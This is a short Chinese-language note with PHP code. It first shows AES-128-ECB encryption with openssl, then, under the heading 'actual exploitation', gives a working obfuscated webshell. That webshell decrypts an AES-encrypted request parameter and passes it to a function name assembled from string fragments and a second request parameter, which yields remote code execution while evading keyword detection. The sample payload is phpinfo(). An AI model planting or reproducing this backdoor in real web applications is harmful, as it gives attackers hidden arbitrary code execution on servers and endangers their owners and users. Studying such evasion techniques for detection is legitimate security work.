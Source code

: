 ```php
<?php
// 要加密的字符串
$data = 'demo';
// 密钥
$key = '123456';
// 加密数据 'AES-128-ECB' 可以通过openssl_get_cipher_methods()获取
$encrypt = openssl_encrypt($data, 'AES-128-ECB', $key, 0);
echo "加密后： ".$encrypt; // 加密后： +eiWVKsoGuc4YBAgbhLq/g==

//密钥
$key = '123456';
// 解密数据
$decrypt = openssl_decrypt($encrypt, 'AES-128-ECB', $key, 0);
echo "<br>解密后： ".$decrypt;  // 解密后： demo
```



实际利用:

```php
<?php
$key = "password";

echo openssl_encrypt("phpinfo()",'AES-128-ECB',$key,0);
// K6El9pg8BG8F8zSJVms05Q==

$fun = openssl_decrypt($_GET['func'], 'AES-128-ECB', $key, 0);
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

<img src=".\图片\Snipaste_2023-04-26_14-46-39.png" alt="Snipaste_2023-04-26_14-46-39" style="zoom:80%;" />


